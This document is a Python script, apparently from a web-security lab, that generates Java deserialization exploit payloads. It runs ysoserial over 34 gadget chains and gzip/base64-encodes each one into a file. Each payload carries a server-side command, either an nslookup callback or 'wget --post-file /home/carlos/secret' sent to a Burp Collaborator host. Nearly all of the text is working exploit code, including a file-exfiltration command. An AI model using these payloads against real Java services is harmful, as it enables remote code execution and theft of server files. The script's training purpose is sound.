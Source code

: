 <hr>

## Script To Brute Force JAVA Deserialization: 

```python
#!/bin/python3
import os, random

burp_collab_link = "6szviq1i5ag33um9o5ya4rox7odg19py.oastify.com" # Used in testing if the command executed # CHANGE

jar_filename = "ysoserial-all.jar"

filename = "exploitsInBase64.txt" # for writing the output
open(filename, 'w').close() # (clear/create) the file

# ysoserial Payloads that will be tried
payloads = ['AspectJWeaver', 'BeanShell1', 'C3P0', 'Click1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'FileUpload1', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JRMPListener', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'Jython1', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'URLDNS', 'Vaadin1', 'Wicket1']


# Generate Exploits
for p in payloads:
    # Distinguish the lookup command by adding a number before the burp collab link.
    rceCommand_nslookup = f"nslookup {p}.{burp_collab_link}"
    rceCommand_exfiltrateFile = f"wget --post-file /home/carlos/secret {p}.{burp_collab_link}"

    cmdOnServer =  rceCommand_exfiltrateFile # CHANGE

    os.system(f"echo \#{p} >> {filename}")

    ####### commment 1 of the commands # CHANGE
    # Gzip the base64
    command = f"/usr/lib/jvm/java-8-openjdk/jre/bin/java -jar {jar_filename} {p} '{cmdOnServer}' | gzip -f | base64 | tr --delete '\\n' >> {filename}"

    # base64 only
    # command = f"/usr/lib/jvm/java-8-openjdk/jre/bin/java -jar {jar_filename} {p} '{cmdOnServer}' | base64 | tr --delete '\\n' >> {filename}"

    os.system(command)

    for i in range(2): os.system(f"echo >> {filename}") # write 4 lines
```